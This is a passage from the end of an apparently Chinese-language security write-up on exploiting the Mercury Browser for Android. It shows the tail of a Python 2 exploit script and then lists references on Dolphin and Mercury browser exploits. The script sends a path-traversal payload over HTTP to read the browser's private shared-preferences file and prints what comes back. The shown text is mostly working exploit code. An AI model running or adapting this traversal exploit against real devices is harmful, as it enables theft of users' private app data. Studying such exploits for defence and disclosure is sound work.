```
                    payload = {'fname': '../../../../data/data/com.ilegendsoft.mercury/shared_prefs/com.ilegendsoft.mercury_preferences.xml'}
                    try:
                        r = requests.get(url, params = payload, headers = headers)
                        print 'Exploiting...\n'
                        print r.status_code, r.content
                        return
                    except Exception as e:
                        continue
                else:
                    continue
if __name__ == '__main__':
    poll()

```

攻击效果

![image](http://drops.javaweb.org/uploads/images/5c34fceeb8bdcc3417ac5b693d8d68fb9238fc67.jpg)

0x03 参考
=======

* * *

```
[1] http://rotlogix.com/2015/08/22/remote-code-execution-in-dolphin-browser-for-android/

[2] http://rotlogix.com/2015/08/23/exploiting-the-mercury-browser-for-android/
```